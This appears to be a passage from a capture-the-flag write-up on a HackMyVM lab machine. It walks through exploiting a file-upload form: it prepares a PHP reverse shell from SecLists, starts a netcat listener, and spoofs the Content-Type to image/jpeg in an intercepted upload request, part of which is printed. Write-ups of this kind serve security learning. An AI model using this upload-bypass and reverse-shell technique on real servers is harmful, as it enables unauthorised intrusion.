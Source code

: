 We have three files and the directory `archivos`

Visiting `uploads.php`:

![[Pasted image 20240802185228.png]]

Using the upload function, I uploaded a jpg file, to see what is going on:

![[Pasted image 20240802185312.png]]

Not relevant, but I found a Reflective Cross-Site Scripting (XSS) Vulnerability - No use:

![[Pasted image 20240802185415.png]]

Once the images are uploaded, they are stored in the `archivos` directory which can be viewed directly.

### Obtaining a Shell:

The hack much be a file upload bypass. Should be straight forward enough. One of the first things I like to do is to change the content type as shown further down. For now, I will prep everything in order to obtain a shell connection.

I will use the `php-reverse-shell.php` from seclists:

```bash
garffff@garffff:~/hackmyvm/principle$ cp /opt/SecLists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php .
garffff@garffff:~/hackmyvm/principle$ mv php-reverse-shell.php shell.php
garffff@garffff:~/hackmyvm/principle$ subl shell.php
```

And updated the php file to include my IP details:

![[Pasted image 20240802185713.png]]

Setting up a netcat reverse shell:

```bash
garffff@garffff:~/hackmyvm/principle$ sudo nc -lvp 8888
Listening on 0.0.0.0 8888
```

Back to the uploads page and selecting my shell.php, and intercepting the request in Burp Suite, I change the following headers:

- Content-Type: from `Content-Type: application/x-php` to `Content-Type: image/jpeg

Partial Payload:

```bash
POST /upload.php HTTP/1.1
Host: hellfire.t4l0s.hmv
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------33227159827889126171334390175
Content-Length: 5719
Origin: http://hellfire.t4l0s.hmv
Connection: keep-alive
Referer: http://hellfire.t4l0s.hmv/upload.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------33227159827889126171334390175
Content-Disposition: form-data; name="archivo"; filename="shell.php"
Content-Type: image/jpeg
```
